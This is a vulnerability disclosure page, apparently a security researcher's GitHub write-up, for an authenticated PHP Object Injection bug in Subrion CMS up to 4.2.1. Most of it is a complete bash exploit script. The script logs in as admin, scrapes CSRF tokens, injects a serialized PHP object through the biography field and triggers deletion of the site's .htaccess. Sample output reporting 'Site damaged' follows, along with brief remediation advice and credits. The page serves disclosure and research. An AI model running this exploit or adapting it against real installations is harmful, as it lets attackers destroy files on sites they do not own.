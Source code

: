 ```yaml
---
layout: default
title: Actions PHP Object Injection
parent: Insecure Deserialization
grand_parent: Subrion CMS
nav_order: 1
---
```


# Actions - PHP Object Injection

This vulnerability was found almost contemporaneously by both me and MS509 Team. As the first public appearance of this issue was made by them on the github page of Subrion, the author of this post is not taking credit for this finding. The aim of this report was to only to provide a public, working exploit.

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS up to v4.2.1. It has been rated as problematic. Affected by this issue is the file `/actions.php`. The manipulation of the of the **biography** value within a user profile leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was originally presented by **flystart** of Mission Studio Team [MS509](https://www.ms509.com/) on 03/05/2020. A public exploit was released on 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory (english) is shared for download at github.com. This vulnerability is not handled as a CVE currently. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following [script](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/Subrion%20CMS/Insecure%20Deserialization/Actions%20-%20Authenticated%20PHP%20Object%20Injection/exploit.sh), with its [serializer](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/Subrion%20CMS/Insecure%20Deserialization/Actions%20-%20Authenticated%20PHP%20Object%20Injection/serializer.php) may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=1 # ID 1 = Admin
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object within biography"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/members/edit/$id/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "Expect:" -H "$cookies" -F "__st=$csrf_token" -F "username=admin" -F "fullname=Administrator" -F "email=admin@subrion.local" -F "email_language=en" -F "save=1" -F "goto=list" --form-string "biography=$payload" "$target/members/edit/1/")

if [[ $(echo $res | grep "HTTP/1.1" | grep "302") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get CSRF token
csrf_token=$(curl -ks -H "$cookies" -x $proxy $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Get block ID to trigger
res=$(curl -i -s -k -X "POST" -H "$cookies;  XDEBUG_SESSION=XDEBUG_ECLIPSE;" -x $proxy "$(echo $target | sed 's/panel\///g')/actions.json" -F "__st=$csrf_token" -F "action=edit-picture-title" -F "field=biography" -F "item=member" -F "itemid=$id" -F "path=tmp" )

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the .htaccess has been deleted. In case the configuration of the site is more robust, check for the presence of `.htaccess` within Subrion HOME direcotry.

## Remediation

It seems the vulnerability is not exploitable on the latest branch. Updating to the latest version should solve the issue.

## Credits

As already written above, the vulnerability was formerly found by **flystart** (github: **ggg4566**). All credit to him for the discovery of this vulnerability.

* [Flystart](https://github.com/ggg4566)

For more information about the vulnerability, and a detailed write-up, check the MS509 link in the references, below.

## References

* [https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/](https://www.ms509.com/2020/03/27/Subrion-Cms-Code-Audit/)
* [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
* [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
